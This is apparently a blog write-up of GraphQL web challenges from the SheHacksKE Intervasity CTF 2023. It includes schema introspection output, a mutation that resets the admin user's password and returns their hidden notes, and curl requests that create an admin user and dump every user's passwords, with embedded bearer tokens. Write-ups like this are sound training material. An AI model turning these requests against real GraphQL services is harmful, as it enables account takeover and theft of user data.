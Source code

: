 ```yaml
---
layout: article
title : SheHacksKE Intervasity CTF 2023 Writeup
tags: web graphql
---
```


# SheHacksKE Intervasity CTF 2023 Web Writeups

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/11161aea-e301-4f2c-a944-7ae8e5b79fbf)


- On friday the 22nd of September 2023 I had an opportunity to take part in the Annual Intervasity CTF from SheHacksKE with some friends from fr334aks under the alias "Seekers" which was partly online and also onsite at USIU Africa,
We ended up winning 🥇 beating atleast other 80 teams that had atleast a single solve in the CTF


## Graph1 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/ed185ee7-3496-4482-af0f-c1942f213b00)


- This was a fairy easy challenge, all that was required of us was to query the flag using the GetFlag query that would fetch the flag from the Flagtable. 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/ee7de725-3933-42db-8d2e-ebe167d54665)

Base64 decoding the encoded strings gives the flag :) 


## Graph2 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/bbc99130-6875-4498-8fbf-aa85efe9f75e)


Spent sometime here as i haven't solved alot of graphql challenges before, but in the end it was worth it,
The challenge as the description said is for one to fetch or retrieve the hidden note,
This hidden note probably belonged to an admin.
I copied the Introspection Query from Graphql voyager to get a better understanding of the queries, available relationships etc. 


![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/751ae80a-6fa6-406a-8122-fccc989fac6a)

I also used graphqlmap to gather more information as well, including mutations and potential injection points or queries that I missed.

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/90f555c9-c5c5-48c0-9dae-07c97c452657)

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/a88f540b-30aa-42eb-be2c-03cbbaf2af86)


### what I tried and failed 


- Creating a User with user id 1 :x:
- Forging the Session Key (Authentication bearer) to include isAdmin user property as True :x:
- Creating a User with isAdmin user property as True :x:
- Modifying The Note with ID 1 to any title and hence be able to read the new note :x:

### What worked 

- Modify User with ID 1 to our controlled password (?) and return the current data along with the admin notes :heavy_check_mark:
 

## Solution 

```bash 

GraphQLmap > dump_via_fragment
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

00: Query
        findNote[]: id (Int!), 
        userNotes[Notes]: 
        getusers[User]: 
        getFlag[FlagTable]: 
01: Notes
        id[ID]: 
        title[]: 
        body[]: 
        userId[]: 
        user[]: 
05: User
        id[ID]: 
        firstName[]: 
        lastName[]: 
        isAdmin[]: 
        email[String]: 
        password[]: 
        notes[Notes]: 
07: FlagTable
        id[ID]: 
        flag[]: 
08: Mutations
        addNote[]: body (String!), title (String!), 
        (?) mutation{addNote(body:"string",title:"string"){ result }}
        updateNote[]: body (String!), noteId (Int!), title (String!), 
        (?) mutation{updateNote(body:"string",noteId:1,title:"string"){ result }}
        deleteNote[]: id (Int!), 
        (?) mutation{deleteNote(id:1){ result }}
        createUser[]: email (String!), firstName (String!), lastName (String!), password (String!), 
        (?) mutation{createUser(email:"string",firstName:"string",lastName:"string",password:"string"){ result }}
        logIn[]: email (String!), password (String!), 
        (?) mutation{logIn(email:"string",password:"string"){ result }}
        updateUser[]: id (Int!), lastName (String!), password (String!), 
        (?) mutation{updateUser(id:1,lastName:"string",password:"string"){ result }}
09: addNote
        ok[]: 
        note[]: 
10: updateNote
        ok[]: 
        note[]: 
11: deleteNote
        ok[]: 
        note[]: 
12: createUser
        ok[]: 
        user[]: 
13: logIn
        ok[]: 
        tokens[]: 
14: Token
        id[ID]: 
        user[]: 
        accessToken[]: 
        refreshToken[]: 
15: updateUser
        ok[]: 
        user[]: 
16: __Schema
17: __Type
19: __Field
20: __InputValue
21: __EnumValue
22: __Directive
```

As you can see on the `updateUser` mutation graphqlmap provided us with a sample query that we can use to update user info as

```graphql
 updateUser[]: id (Int!), lastName (String!), password (String!), 
        (?) mutation{updateUser(id:1,lastName:"string",password:"string"){ result }}`

```

I later modified this query to  

```graphql 
mutation {
  updateUser(id: 1, lastName: "Admin", password: "admin") {
    ok
    user {
      id
      email
      firstName
      lastName
      password
      notes {
        id
        title
        body
      }
    }
  }
}

```
which can be defined as 

```graphql 

updateUser
  ok[]: 
  user[]:
    id[]
    email[]
    firstName[]
    lastName[]
    password[]
    notes[]:
      id[]
      title[]
      body[]

```
![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/a5b2ab15-2c83-4a37-a22c-f8c768338a00)

- Decode for full flag

### Misc 

#### createuser 

```zsh
curl -X POST -H "Content-Type: application/json" --data '{ "query": "mutation { createUser(firstName: \"NewUser\", lastName: \"Admin\", email: \"newuser@admin.com\", password: \"EasyPassword123\", isAdmin: true) { ok user { id firstName lastName email isAdmin } } }" }' http://128.199.47.43:5000/graphql
```

#### login 

```zsh
curl -X POST \
-H "Content-Type: application/json" \
--data '{ "query": "mutation { logIn(email: \"koimet@koimet.com\", password: \"koimet") { ok tokens { accessToken refreshToken } } }" }' \
http://128.199.47.43:5000/graphql
```

#### GetUsers

```zsh
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NTM3NTA1NCwianRpIjoiMDU3ZjY3YWYtNGRlYS00MWYzLTgwMTMtYmVkMDg3YTg0Yjc3IiwidHlwZSI6ImFjY2VzcyIsImlkZW50aXR5IjoibmV3dXNlckBhZG1pbi5jb20iLCJuYmYiOjE2OTUzNzUwNTQsImV4cCI6MTY5NTM3NTk1NH0.g0SJZtVyKQfdv-vlZJc8zfM9F4HRN00bMivuqn-RNe8" --data '{ "query": "{ getusers { firstName lastName isAdmin email password notes { id title body userId } } }" }' http://128.199.47.43:5000/graphql
```


#### userNotes 

```zsh
curl -X POST \
-H "Content-Type: application/json" \
-H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NTM3NTA1NCwianRpIjoiMDU3ZjY3YWYtNGRlYS00MWYzLTgwMTMtYmVkMDg3YTg0Yjc3IiwidHlwZSI6ImFjY2VzcyIsImlkZW50aXR5IjoibmV3dXNlckBhZG1pbi5jb20iLCJuYmYiOjE2OTUzNzUwNTQsImV4cCI6MTY5NTM3NTk1NH0.g0SJZtVyKQfdv-vlZJc8zfM9F4HRN00bMivuqn-RNe8" \
--data '{ "query": "{ userNotes { id title body userId user { firstName lastName } } }" }' \
http://128.199.47.43:5000/graphql
```


## References 

⚫ [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
⚫ [ctftime](https://ctftime.org/tasks/?hidden-tags=graphql)
